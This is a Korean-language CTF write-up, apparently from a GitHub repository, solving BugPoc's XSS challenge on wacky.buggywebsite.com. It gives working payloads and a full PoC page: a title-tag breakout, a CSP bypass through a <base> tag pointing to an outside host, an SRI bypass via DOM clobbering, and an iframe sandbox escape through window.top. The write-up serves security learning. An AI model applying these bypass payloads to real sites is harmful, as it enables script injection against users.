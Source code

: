 ## Descriptions

[BugPoc](https://bugpoc.com/)에서 만든 XSS Challenge이고, 문제의 목적은 CSP/SRI 및 Sandbox를 우회하고, XSS를 트리거 하는 것이다.

---
## Analysis

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Wacky%20Text%20Generator/images/1.png?raw=true)

위 사진을 보면 Wacky Text를 입력해주면 해당 값이 Dom 내부에 삽입되는 것을 볼 수 있다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Wacky%20Text%20Generator/images/2.png?raw=true)

콘솔창을 확인해 보니 `iframe`을 이용해서 `/frame.html`의 돔을 끌어와서 사용하는 것을 볼 수 있다. 

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Wacky%20Text%20Generator/images/3.png?raw=true)

그래서 `/frame.html`로 접근을 해보니 아니나 다를까 Error 페이지가 발생하는 것 이었다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Wacky%20Text%20Generator/images/4.png?raw=true)

코드를 확인해 보니 190 line에서 window.name의 값이 "iframe"인 지 아닌 지를 검증하고 있고, window.name의 값이 "iframe"이 아니라면 else 문에 의해서 Error 페이지가 출력이 되는 것 이다.

```html
<!DOCTYPE html>
<html>
    <head>
        <title>XSS Poc : CSP/SRI/Sandbox Bypass</title>
    </head>
    <body>
        <script>
            const exploit = function (){
                const payload = 'pocas';
                const url = `https://wacky.buggywebsite.com/frame.html?param=${payload}`;

                window.name = 'iframe';
                window.location = url;
            }
        </script>

       <h3>If you click the button below.</h3>
        <input type='button' onclick= 'exploit()' value='Trigger'>
    </body>
</html>
```
그래서 위와 같이 window.name의 값으로 "iframe"을 주고, window.location 메서드를 이용해서 라디아렉트를 시켜주니 window.name 검증은 쉽게 해결 할 수 있었다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Wacky%20Text%20Generator/images/5.png?raw=true)

그리고 나서 `<svg/onload=alert(1)>`을 이용해서 XSS 트리거를 시도 했지만 입력값이 split으로 쪼개져서 위와 같이 들어가게 된다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Wacky%20Text%20Generator/images/6.png?raw=true)

하지만 입력값이 바디 부분에만 들어가는 것이 아닌 헤드에 있는 타이틀의 값으로도 들어가기 때문에 타이틀 태그를 닫고 xss 트리거 시도를 하면 될 거 같다.

```
Refused to execute inline event handler because it violates the following Content Security Policy directive: "script-src 'nonce-jogzjbybjuiy' 'strict-dynamic'". Either the 'unsafe-inline' keyword, a hash ('sha256-...'), or a nonce ('nonce-...') is required to enable inline execution. Note that hashes do not apply to event handlers, style attributes and javascript: navigations unless the 'unsafe-hashes' keyword is present.
```
그래서 `</title><svg/onload=alert(1)>`를 전달해주니 Dom Parsing에 의해서 Dom으로 잘 들어가는 것을 확인 할 수 있었는데 위와 같이 CSP 에러가 나는 것을 확인 할 수 있었다.

```
content-security-policy: script-src 'nonce-jogzjbybjuiy' 'strict-dynamic'; frame-src 'self'; object-src 'none';
```
Response를 확인해보면 위와 같이 CSP가 설정되어 있는 것을 볼 수 있다. 그래서 `CSP Evaluator`를 이용해서 해당 CSP 위험도를 확인해보니 base-uri가 누락되면 스크립트를 삽입할 수 있다고 한다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Wacky%20Text%20Generator/images/7.png?raw=true)

그래서 개인서버에 xss payload를 올리고 위와 같이 <base> 태그를 이용해서 익스를 시도하니 CSP는 우회가 되었지만 SRI에 걸리는 것을 볼 수 있다. SRI는 SubResource Integrity의 줄임말로 무결성을 체크하는 보안 설정 중 하나이다. 이는 웹 서버의 코드가 위/변조가 발생하면 해당 스크립트의 실행을 중지하게 된다. 또한 무결성을 확인을 할 때는 고유의 Hash 값을 이용해서 검증을 한다.

```js
// securely load the frame analytics code
			if (fileIntegrity.value) {
				
				// create a sandboxed iframe
				analyticsFrame = document.createElement('iframe');
				analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');
				analyticsFrame.setAttribute('class', 'invisible');
				document.body.appendChild(analyticsFrame);

				// securely add the analytics code into iframe
				script = document.createElement('script');
				script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
				script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);
				script.setAttribute('crossorigin', 'anonymous');
				analyticsFrame.contentDocument.body.appendChild(script);
				
			}
```
위 코드를 확인해 보면 fileIntegrity 객체의 있는 value 값을 이용해서 hash 값을 가져오고, 해당 hash 값과 고유의 hash 값을 비교하게 된다. 다시 SRI 에러를 확인해보면 `https://nq5h16dpmbg2.redir.bugpoc.ninja/files/analytics/js/frame-analytics.js`의 대한 Integrity의 digest 값을 찾지 못 해서 `<your hash value>` 값을 블록했다고 한다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Wacky%20Text%20Generator/images/9.png?raw=true)

`/files/analytics/js/frame-analytics.js`의 값을 확인 해보면 위와 같다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Wacky%20Text%20Generator/images/8.png?raw=true)

그리고 base 태그를 이용해서 스크립트를 삽입 한 후에는 `frame-analytics.js`의 값이 alert(1)로 변조가 된 것을 볼 수 있다. 

```
openssl dgst -sha384 -binary FILENAME.js | openssl base64 -A
```

그럼 `frame-.js`의 파일 값이 변조가 되었다고 왜 SRI에 걸리냐고 궁금해 할 수도 있다. 이는 Hash를 생성하는 방법을 보면 알다시피 특정 파일 값을 기준으로 hash 값을 생성한다. 즉, 문제에서는 alert(1)로 변조 되기 전에 파일 값으로 hash 값을 생성해서 사용하고 있는데, 우리가 해당 파일의 값을 alert(1)로 변조하였기 때문에 hash 값 자체가 달라지므로 SRI에 걸리게 된다.

```
fileIntegrity.value
```

하지만 js 단에서 Integrity 값을 가져 올 때, 위와 같이 값을 가져오게 된다. 하지만 우리는 해당 값으로 고유의 hash 값을 넣어줘야 하는데 이는 `Dom Clobbering` 기법을 이용해서 처리할 수 있다.

```html
<output id="fileIntegrity">Hello Pocas</output>
<script>
    alert(fileIntegrity.value);
</script>
```
![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Wacky%20Text%20Generator/images/10.png?raw=truee)

위와 같이 코드를 올리고 실행하면 `fileIntegrity.value`의 값으로 `Hello Pocas`가 들어가는 것을 볼 수 있다.

```html
</title><output id="fileIntegrity">Hello Pocas</output>
```

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Wacky%20Text%20Generator/images/11.png?raw=true)

그래서 위 페이로드를 작성해서 전달해주고, 콘솔 창에서 fileIntegrity.value를 입력해보면 우리가 입력한 고유의 값이 박힌 것을 볼 수 있다.

```html
</title><BASE HREF="https://nq5h16dpmbg2.redir.bugpoc.ninja"><output id="fileIntegrity">bhHHL3z2vDgxUt0W3dWQOrprscmda2Y5pLsLg4GF%2bpI=</output>
```

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Wacky%20Text%20Generator/images/12.png?raw=true)

그래서 `Dom Clobbering` 기법을 이용해서 fileIntegrity의 값을 변조해주니 SRI도 잘 우회한 것을 볼 수 있다. 하지만 위와 같이 `Sandbox` 설정에 의해서 alert() 함수가 실행이 되지 않는 것을 볼 수 있다. 하지만 이 `Sandbox`는 현재 Iframe에만 적용이 되어 있기 때문에 `top`, `parent` 돔에 참조해서 alert()를 끌어와 사용하면 쉽게 우회할 수 있다.

```html
</title><BASE HREF="https://p93yp8ell2os.redir.bugpoc.ninja"><output id="fileIntegrity">pUo1a+NaJwmvkDH8uSo6a1Z+emeQfamsHK2k52tjpTE=</output>
```

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Wacky%20Text%20Generator/images/13.png?raw=true)

그래서 마지막으로 위와 같이 페이로드를 작성해주고 보내주면 XSS가 잘 트리거 되는 것을 볼 수 있다. 또한 위 페이로드가 전 페이로드와 Hash 값이 다른 이유는 위에 이야기 했다 시피 고유의 해쉬 값은 파일의 컨텐츠 값에 따라서 달라지기 때문이다.

```
frame-analytics.js의 값이 alert(1) 일 때의 해쉬 값 => bhHHL3z2vDgxUt0W3dWQOrprscmda2Y5pLsLg4GF+pI=
frame-analytics.js의 값이 window.top.alert(1) 일 때의 해쉬 값 => pUo1a+NaJwmvkDH8uSo6a1Z+emeQfamsHK2k52tjpTE=
frame-analytics.js의 값이 window.parent.alert(1) 일 때의 해쉬 값 => Vxz2g08RDzmBMHlaYk0sNqiCWbU6UKBSCH+xw2Qa1dM=
```
위와 같이 다 다르다 ㅇㅇ

---
# Poc (Sollution)
```html
<!DOCTYPE html>
<html>
    <head>
        <title>XSS Poc : CSP/SRI/Sandbox Bypass</title>
    </head>
    <body>
        <script>
            // content-security-policy: script-src 'nonce-gyzyfhmynqlj' 'strict-dynamic'; frame-src 'self'; object-src 'none';
            // TR;DL : XSS => CSP Bypass and SRI Bypass using the Dom Clobbering. And finally trigger a xss using the window.top.alert(1).
            // First, I bypassed csp using the base tag.
            // Second, I bypassed integrity value used in SRI(SubResource Integrity) using the Dom Clobbering.
            // Why using the window.top? We should call the alert() method on the wintow.top and window.parent because Using the `sandbox allow-scripts allow-same-origin` in Child iframe. This is sandbox bypass.
                       
            const Dom_Clobbering = function () {
                const payload = '</title><form><output id="fileIntegrity">Modified</output>';
                const url = `https://wacky.buggywebsite.com/frame.html?param=${payload}`;

                window.name = 'iframe';
                window.location = url;
            }

            const exploit = function (){
                const payload = '</title><BASE HREF="https://mfol4633a69b.redir.bugpoc.ninja"><form><output id="fileIntegrity">F0NfquGiAKFW0hvQsOmMsnAyVCjs3sjH0IyIf8wogAU=</output>';
                const url = `https://wacky.buggywebsite.com/frame.html?param=${payload}`;

                window.name = 'iframe';
                window.location = url;
            }
        </script>

        <h1>BugPoc XSS Challenge</h1>
        <h3>If you click the button below and Enter the `console.log(fileIntegrity.value);` on the chrome console window, You can see that the hash value has been modified to 'Modified'</h3>
        <input type='button' onclick= 'Dom_Clobbering()' value='Test'>

        <h3>If you click the button below and execute poc code, You can trigger the xss.</h3>
        <input type='button' onclick= 'exploit()' value='Trigger'>
    </body>
</html>
```
